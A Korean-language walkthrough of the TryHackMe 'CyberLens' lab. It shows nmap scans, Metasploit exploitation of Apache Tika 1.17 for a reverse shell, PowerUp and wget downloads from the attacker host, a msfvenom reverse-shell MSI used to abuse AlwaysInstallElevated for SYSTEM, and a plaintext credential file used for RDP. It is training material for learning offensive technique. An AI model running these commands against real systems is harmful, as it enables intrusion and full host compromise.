

# Description


# 초기화면




# 풀이


## 1. NMAP 스캔

```bash
┌──(root㉿vbox)-[~/THM/CyberLens]
└─# nmap -p- 10.201.39.16 -T4                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-07 00:27 KST
Nmap scan report for 10.201.39.16
Host is up (0.31s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
61777/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1283.04 seconds                                                     
```

```bash
┌──(root㉿vbox)-[~/THM/CyberLens]
└─# nmap -p49664,49665,49666,49667,49668,49669,49671,49674,61777 -sC -sV 10.201.39.16 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-07 00:52 KST
Nmap scan report for 10.201.39.16
Host is up (0.45s latency).

PORT      STATE SERVICE VERSION
49664/tcp open  msrpc   Microsoft Windows RPC
49665/tcp open  msrpc   Microsoft Windows RPC
49666/tcp open  msrpc   Microsoft Windows RPC
49667/tcp open  msrpc   Microsoft Windows RPC
49668/tcp open  msrpc   Microsoft Windows RPC
49669/tcp open  msrpc   Microsoft Windows RPC
49671/tcp open  msrpc   Microsoft Windows RPC
49674/tcp open  msrpc   Microsoft Windows RPC
61777/tcp open  http    Jetty 8.y.z-SNAPSHOT
|_http-cors: HEAD GET
|_http-title: Welcome to the Apache Tika 1.17 Server
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.22 seconds
                                                                
```

## 2. 61777 포트 접속


- Apache Tika 1.17 Server임을 확인

### 2-1. exploit-db 확인


[CVE-2018-1335 (1)](https://www.notion.so/CVE-2018-1335-1-24df804c5aa2805e85c9c31ae8b53ba0?pvs=21)

## 3. Metasploit을 이용한 reverse shell 획득

### 3-1. msfconsole 입력

```bash
┌──(root㉿vbox)-[~/THM/CyberLens]
└─# msfconsole                                                         
Metasploit tip: Use sessions -1 to interact with the last opened session
                                                  
     ,           ,
    /             \                                                          
   ((__---,,,---__))                                                         
      (_) O O (_)_________                                                   
         \ _ /            |\                                                 
          o_o \   M S F   | \                                                
               \   _____  |  *                                               
                |||   WW|||                                                  
                |||     |||                                                  
                                                                             

       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > 
```

### 3-2. search tika

```bash
msf6 > search tika

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript         2018-04-25       excellent  Yes    Apache Tika Header Command Injection                        
   1  post/linux/gather/puppet                             .                normal     No     Puppet Config Gather
   2  auxiliary/scanner/http/wp_gimedia_library_file_read  .                normal     No     WordPress GI-Media Library Plugin Directory Traversal Vulnerability

Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/wp_gimedia_library_file_read                             

```

### 3-3. options 세팅 후 실행

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LHOST 10.21.143.201
LHOST => 10.21.143.201
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.201.39.16
RHOSTS => 10.201.39.16
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
RPORT => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > run
[*] Started reverse TCP handler on 10.21.143.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/apache_tika_jp2_jscript) > 
```

- LPORT를 9050으로 하니까됨

```bash
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LPORT 9050
LPORT => 9050
msf6 exploit(windows/http/apache_tika_jp2_jscript) > run
[*] Started reverse TCP handler on 10.21.143.201:9050 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.201.39.16:61777/meta
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Sending stage (177734 bytes) to 10.201.39.16
[*] Meterpreter session 1 opened (10.21.143.201:9050 -> 10.201.39.16:49851) at 2025-08-07 00:45:00 +0900

meterpreter > 
```

### 3-4. shell 획득

```bash
meterpreter > shell
Process 2800 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>pwd
pwd
'pwd' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>whoami
whoami
cyberlens\cyberlens
```

## 4. User Flag 획득

```bash
C:\Windows\System32>cd ../../
cd ../../

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\

06/06/2023  07:39 PM    <DIR>          Apache-Tika
06/06/2023  07:37 PM    <DIR>          Apache24
11/14/2018  06:56 AM    <DIR>          EFI
05/13/2020  05:58 PM    <DIR>          PerfLogs
06/06/2023  07:30 PM    <DIR>          Program Files
11/25/2023  04:16 PM    <DIR>          Program Files (x86)
06/06/2023  07:48 PM    <DIR>          Users
03/17/2021  02:59 PM    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  14,924,365,824 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

06/06/2023  07:48 PM    <DIR>          .
06/06/2023  07:48 PM    <DIR>          ..
03/17/2021  03:13 PM    <DIR>          Administrator
11/25/2023  07:31 AM    <DIR>          CyberLens
12/12/2018  07:45 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  14,924,365,824 bytes free

C:\Users>cd CyberLens
cd CyberLens

C:\Users\CyberLens>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\CyberLens

11/25/2023  07:31 AM    <DIR>          .
11/25/2023  07:31 AM    <DIR>          ..
06/06/2023  07:48 PM    <DIR>          3D Objects
06/06/2023  07:48 PM    <DIR>          Contacts
06/06/2023  07:53 PM    <DIR>          Desktop
06/07/2023  03:09 AM    <DIR>          Documents
06/06/2023  07:48 PM    <DIR>          Downloads
06/06/2023  07:48 PM    <DIR>          Favorites
06/06/2023  07:48 PM    <DIR>          Links
06/06/2023  07:48 PM    <DIR>          Music
06/06/2023  07:48 PM    <DIR>          Pictures
06/06/2023  07:48 PM    <DIR>          Saved Games
06/06/2023  07:48 PM    <DIR>          Searches
06/06/2023  07:48 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  14,924,365,824 bytes free

C:\Users\CyberLens>cd Desktop
cd Desktop

C:\Users\CyberLens\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\CyberLens\Desktop

06/06/2023  07:53 PM    <DIR>          .
06/06/2023  07:53 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/06/2023  07:54 PM                25 user.txt
               3 File(s)          1,106 bytes
               2 Dir(s)  14,924,365,824 bytes free

C:\Users\CyberLens\Desktop>type user.txt
type user.txt
THM{flag}
C:\Users\CyberLens\Desktop>
```

## 5.  취약점 확인

### 5-1-1. powerUP.ps1 업로드 & 실행

```bash
cd /usr/share/windows-resources/powersploit/Privesc  <-- 여기로 이동
```

```bash
┌──(root㉿kali)-[/usr/share/windows-resources/powersploit/Privesc]
└─# ls
Get-System.ps1  PowerUp.ps1  Privesc.psd1  Privesc.psm1  README.md
```

- 현재 디렉토리에서 서버를 연후 user shell로 옮기기

```bash
┌──(root㉿kali)-[/usr/share/windows-resources/powersploit/Privesc]
└─# python3 -m http.server 5555                                            
Serving HTTP on 0.0.0.0 port 5555 (http://0.0.0.0:5555/) ...
10.201.85.42 - - [13/Aug/2025 20:09:47] "GET /PowerUp.ps1 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

```bash
meterpreter > shell
Process 3108 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> mkdir C:\temp
mkdir C:\temp

    Directory: C:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        8/13/2025  11:08 AM                temp                                                                  

PS C:\Windows\system32> cd C:\temp
cd C:\temp
PS C:\temp> wget http://10.8.75.107:5555/PowerUp.ps1 -o PowerUp.ps1
wget http://10.8.75.107:5555/PowerUp.ps1 -o PowerUp.ps1
PS C:\temp> dir
dir

    Directory: C:\temp

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        8/13/2025  11:09 AM         600580 PowerUp.ps1                                                          

PS C:\temp> . .\PowerUp.ps1
. .\PowerUp.ps1
PS C:\temp> Invoke-AllChecks
Invoke-AllChecks

ModifiablePath    : C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps
IdentityReference : CYBERLENS\CyberLens
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI

PS C:\temp>
```

- AlwaysInstallElevated
- AbuseFunction : Write-UserAddMSI

→ 시스템의 모든 사용자가 MSI 파일을 실행할 때 관리자 권한으로 실행 할 수 있음

### 5-1-2. 메타스플로잇만 사용

```bash
[1]
search multi recon local exploit suggester

[2]
use exploit/windows/local/always_install_elevated
```

```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/apache_tika_jp2_jscript) > search multi recon local exploit suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester  .                normal  No     Multi Recon Local Exploit Suggester

Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(windows/http/apache_tika_jp2_jscript) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.201.85.42 - Collecting local exploits for x86/windows...
[*] 10.201.85.42 - 198 exploit checks are being tried...
[+] 10.201.85.42 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.201.85.42 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.201.85.42 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.201.85.42 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.201.85.42 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.201.85.42 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 42 / 42
[*] 10.201.85.42 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/always_install_elevated                  Yes                      The target is vulnerable.
 2   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.                                                                                                                  
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.                                                                                                                  
 4   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.                                                                                                                  
 5   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.                                                                                                                  
 6   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.                                                                                                    
 7   exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.                                                                                                                  
 8   exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.                                                                                                                        
 9   exploit/windows/local/anyconnect_lpe                           No                       The target is not exploitable. vpndownloader.exe not found on file system                                                                              
 10  exploit/windows/local/bits_ntlm_token_impersonation            No                       The target is not exploitable.                                                                                                                        
 11  exploit/windows/local/bthpan                                   No                       The target is not exploitable.                                                                                                                        
 12  exploit/windows/local/bypassuac_eventvwr                       No                       The target is not exploitable.                                                                                                                        
 13  exploit/windows/local/bypassuac_fodhelper                      No                       The target is not exploitable.                                                                                                                        
 14  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found                                                                                  
 15  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   No                       The target is not exploitable. The build number of the target machine does not appear to be a vulnerable version!                                      
 16  exploit/windows/local/gog_galaxyclientservice_privesc          No                       The target is not exploitable. Galaxy Client Service not found                                                                                        
 17  exploit/windows/local/ikeext_service                           No                       The check raised an exception.                                                                                                                        
 18  exploit/windows/local/ipass_launch_app                         No                       The check raised an exception.                                                                                                                        
 19  exploit/windows/local/lenovo_systemupdate                      No                       The check raised an exception.                                                                                                                        
 20  exploit/windows/local/lexmark_driver_privesc                   No                       The check raised an exception.                                                                                                                        
 21  exploit/windows/local/mqac_write                               No                       The target is not exploitable.                                                                                                                        
 22  exploit/windows/local/ms10_015_kitrap0d                        No                       The target is not exploitable.                                                                                                                        
 23  exploit/windows/local/ms10_092_schelevator                     No                       The target is not exploitable. Windows Server 2019 (10.0 Build 17763). is not vulnerable                                                              
 24  exploit/windows/local/ms13_053_schlamperei                     No                       The target is not exploitable.                                                                                                                        
 25  exploit/windows/local/ms13_081_track_popup_menu                No                       Cannot reliably check exploitability.                                                                                                                  
 26  exploit/windows/local/ms14_058_track_popup_menu                No                       Cannot reliably check exploitability.                                                                                                                  
 27  exploit/windows/local/ms14_070_tcpip_ioctl                     No                       The target is not exploitable.                                                                                                                        
 28  exploit/windows/local/ms15_004_tswbproxy                       No                       The target is not exploitable.                                                                                                                        
 29  exploit/windows/local/ms15_051_client_copy_image               No                       The target is not exploitable.                                                                                                                        
 30  exploit/windows/local/ms16_016_webdav                          No                       The target is not exploitable.                                                                                                                        
 31  exploit/windows/local/ms16_075_reflection                      No                       The target is not exploitable.                                                                                                                        
 32  exploit/windows/local/ms16_075_reflection_juicy                No                       The target is not exploitable.                                                                                                                        
 33  exploit/windows/local/ms_ndproxy                               No                       The target is not exploitable.                                                                                                                        
 34  exploit/windows/local/novell_client_nicm                       No                       The target is not exploitable.                                                                                                                        
 35  exploit/windows/local/ntapphelpcachecontrol                    No                       The check raised an exception.                                                                                                                        
 36  exploit/windows/local/ntusermndragover                         No                       The target is not exploitable.                                                                                                                        
 37  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.                                                                                                                        
 38  exploit/windows/local/ppr_flatten_rec                          No                       The target is not exploitable.                                                                                                                        
 39  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found                                                                                        
 40  exploit/windows/local/tokenmagic                               No                       The target is not exploitable.                                                                                                                        
 41  exploit/windows/local/virtual_box_guest_additions              No                       The target is not exploitable.                                                                                                                        
 42  exploit/windows/local/webexec                                  No                       The check raised an exception.                                                                                                                        

[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/always_install_elevated
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > set lhost 10.8.75.107
lhost => 10.8.75.107
msf6 exploit(windows/local/always_install_elevated) > set session 1
session => 1
msf6 exploit(windows/local/always_install_elevated) > run

[*] Started reverse TCP handler on 10.8.75.107:4444
[*] Uploading the MSI to C:\Users\CYBERL~1\AppData\Local\Temp\1\YIvqQMhMg.msi ...
[*] Executing MSI...
[*] Sending stage (177734 bytes) to 10.201.85.42
[+] Deleted C:\Users\CYBERL~1\AppData\Local\Temp\1\YIvqQMhMg.msi
[*] Meterpreter session 2 opened (10.8.75.107:4444 -> 10.201.85.42:49834) at 2025-08-13 20:38:55 +0900

meterpreter > shell
Process 4372 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\
cd C:\
PS C:\> dir
dir

    Directory: C:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/6/2023   7:39 PM                Apache-Tika                                                          
d-----         6/6/2023   7:37 PM                Apache24                                                              
d-----       11/14/2018   6:56 AM                EFI                                                                  
d-----        5/13/2020   5:58 PM                PerfLogs                                                              
d-r---         6/6/2023   7:30 PM                Program Files                                                        
d-----       11/25/2023   4:16 PM                Program Files (x86)                                                  
d-----        8/13/2025  11:09 AM                temp                                                                  
d-r---         6/6/2023   7:48 PM                Users                                                                
d-----        3/17/2021   2:59 PM                Windows                                                              

PS C:\> cd Users
cd Users
PS C:\Users> dir
dir

    Directory: C:\Users

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        8/13/2025  11:09 AM                Administrator                                                        
d-----       11/25/2023   7:31 AM                CyberLens                                                            
d-r---       12/12/2018   7:45 AM                Public                                                                

PS C:\Users> cd Administrator
cd Administrator
PS C:\Users\Administrator> dir
dir

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        3/17/2021   3:13 PM                3D Objects                                                            
d-r---        3/17/2021   3:13 PM                Contacts                                                              
d-r---         6/6/2023   7:45 PM                Desktop                                                              
d-r---        3/17/2021   3:13 PM                Documents                                                            
d-r---         6/6/2023   7:39 PM                Downloads                                                            
d-r---        3/17/2021   3:13 PM                Favorites                                                            
d-r---        3/17/2021   3:13 PM                Links                                                                
d-r---        3/17/2021   3:13 PM                Music                                                                
d-r---        3/17/2021   3:13 PM                Pictures                                                              
d-r---        3/17/2021   3:13 PM                Saved Games                                                          
d-r---        3/17/2021   3:13 PM                Searches                                                              
d-r---        3/17/2021   3:13 PM                Videos                                                                

PS C:\Users\Administrator> cd Desktop
cd Desktop
PS C:\Users\Administrator\Desktop> dir
dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       11/27/2023   7:50 PM             24 admin.txt                                                            
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website                                                  
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website                                  

PS C:\Users\Administrator\Desktop> type admin.txt
type admin.txt
THM{flag}
PS C:\Users\Administrator\Desktop>

```

## 6. MSI 파일 생성 후 삽입 & 실행

### 6-1. 메타스플로잇을 이용한 msi 파일 생성 후 삽입 & 실행

- 명령어

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<본인IP> LPORT=<본인PORT> -f msi -o exploit.msi
```

```bash
┌──(root㉿kali)-[~/THM/CyberLens]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.75.107 LPORT=4444 -f msi > exploit.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes

                                                                                                                         
┌──(root㉿kali)-[~/THM/CyberLens]
└─# python3 -m http.server 5555
Serving HTTP on 0.0.0.0 port 5555 (http://0.0.0.0:5555/) ...
10.201.85.42 - - [13/Aug/2025 20:54:22] "GET /exploit.msi HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

```powershell
meterpreter > shell
Process 1532 created.
Channel 3 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\temp <--위에서 만든 임시 디렉토리
cd C:\temp
PS C:\temp> wget http://10.8.75.107:5555/exploit.msi -o exploit.msi
wget http://10.8.75.107:5555/exploit.msi -o exploit.msi
PS C:\temp> . .\exploit.msi
. .\exploit.msi
PS C:\temp>                                                                                                             
```

- 관리자 권한 획득

```bash
┌──(root㉿kali)-[~/THM/CyberLens]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.75.107] from (UNKNOWN) [10.201.85.42] 49853
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

## + 위 msi 파일이 쉘에서 실행이 안될 경우

- CyberLens 유저의 Documents로 이동

```bash
cd C:\Users\CyberLens\Documents
```

- CyberLens의 계정정보 획득

```bash
PS C:\Users\CyberLens> cd Documents
cd Documents
PS C:\Users\CyberLens\Documents> ls
ls

    Directory: C:\Users\CyberLens\Documents

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/7/2023   3:09 AM                Management                                                            

PS C:\Users\CyberLens\Documents> cd Management
cd Management
PS C:\Users\CyberLens\Documents\Management> ls
ls

    Directory: C:\Users\CyberLens\Documents\Management

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         6/7/2023   3:09 AM             90 CyberLens-Management.txt                                              

PS C:\Users\CyberLens\Documents\Management> type CyberLens-Management.txt
type CyberLens-Management.txt
Remember, manual enumeration is often key in an engagement ;)

CyberLens
{password}
```


- RDP 연결

```bash
┌──(root㉿kali)-[~/THM/CyberLens]
└─# xfreerdp3 /v:10.201.88.219 /u:CyberLens /p:{password}
```


- 화면 획득 후 마우스로 실행

